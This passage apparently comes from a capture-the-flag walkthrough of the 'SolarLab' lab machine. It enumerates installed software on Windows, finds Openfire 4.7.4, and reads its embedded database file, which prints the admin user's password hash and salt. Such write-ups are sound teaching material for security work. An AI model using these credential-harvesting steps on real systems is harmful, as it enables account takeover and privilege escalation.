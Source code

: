 - Installed programs
	- `Openfire 4.7.4`

```bash
PS C:\Windows\system32> Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*, HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\* | ?{$_.Publisher -ne "Microsoft Cor
poration"} | Select-Object InstallDate, DisplayName, DisplayVersion, Publisher, InstallLocation | sort InstallDate | ft -wrap

InstallDate DisplayName                DisplayVersion  Publisher                     InstallLocation
----------- -----------                --------------  ---------                     ---------------
            Openfire 4.7.4             4.7.4           Ignite Realtime RTC Community C:\Program Files\Openfire
[...]
```

### Openfire - Database : Discover Admin credential

`Openfire` on this machine is using embedded database

```bash
PS C:\Program Files\Openfire\conf> cat .\openfire.xml
<?xml version="1.0" encoding="UTF-8"?>
[...]
  <connectionProvider>
    <className>org.jivesoftware.database.EmbeddedConnectionProvider</className>
  </connectionProvider>
  <setup>true</setup>
  <fqdn>solarlab.htb</fqdn>
</jive>
```

The database contains `Administrator's` password hash

```bash
PS C:\Program Files\Openfire\embedded-db> ls


    Directory: C:\Program Files\Openfire\embedded-db


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         5/12/2024  11:12 AM                openfire.tmp
-a----         5/13/2024  12:22 PM             16 openfire.lck
-a----         5/13/2024  12:09 PM           1575 openfire.log
-a----         5/12/2024  11:12 AM            106 openfire.properties
-a----          5/7/2024   9:53 PM          16161 openfire.script


PS C:\Program Files\Openfire\embedded-db> cat .\openfire.script
[...]
INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a9
4016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@solarlab.htb','001700223740785','0')
[...]
```
